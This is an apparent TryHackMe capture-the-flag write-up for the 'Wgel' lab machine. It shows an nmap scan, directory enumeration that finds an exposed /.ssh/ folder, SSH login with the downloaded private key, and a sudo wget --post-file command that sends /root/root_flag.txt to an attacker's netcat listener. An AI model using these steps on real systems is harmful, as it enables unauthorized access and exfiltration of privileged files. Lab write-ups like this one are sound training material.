 <p align="center">
  <img width="120" height="120" src="https://raw.githubusercontent.com/tryhackme/tryhackme-assets/main/logo.png">
</p>

# 🏴‍☠️ THM - Wgel (CTF Write-up)

### 📌 Target Information
| Field       | Value            |
|------------|-----------------|
| **IP**     | `10.201.37.255` |
| **Open Ports** | `22 (SSH)` • `80 (HTTP)` |

### 🔍 Full Recon & Exploitation

```console
# Nmap Scan
sudo nmap 10.201.37.255 -sC -sV -sS
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-07 15:50 UTC
Nmap scan report for 10.201.37.255
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Web Enumeration
# Viewing page source revealed username: Jessie
gobuster dir -u http://10.201.37.255/sitemap/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
# Found Directories:
# /images/ /css/ /js/ /fonts/
# Hidden directory: /.ssh/

# SSH Key Exploitation
# Downloaded id_rsa from /.ssh/
chmod 600 id_rsa
ssh -i id_rsa jessie@10.201.37.255
# Gained shell as user 'jessie'

# User Flag Enumeration
cd ~/Documents
find / -type f -name "user*" 2>/dev/null
# Flag retrieved (hidden)

# Privilege Escalation & Root Flag
find / -type f -name "root*" 2>/dev/null
find / -type f -name "*.txt" 2>/dev/null
find /root -type f -name "flag*" 2>/dev/null
find /root -type f -name "root_flag*" 2>/dev/null
# Root flag located

# Exfiltrating Root Flag using Netcat
# On attacker machine:
nc -lvp 8989
# On victim machine:
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<YOUR-IP>:8989
# Root flag retrieved (hidden)
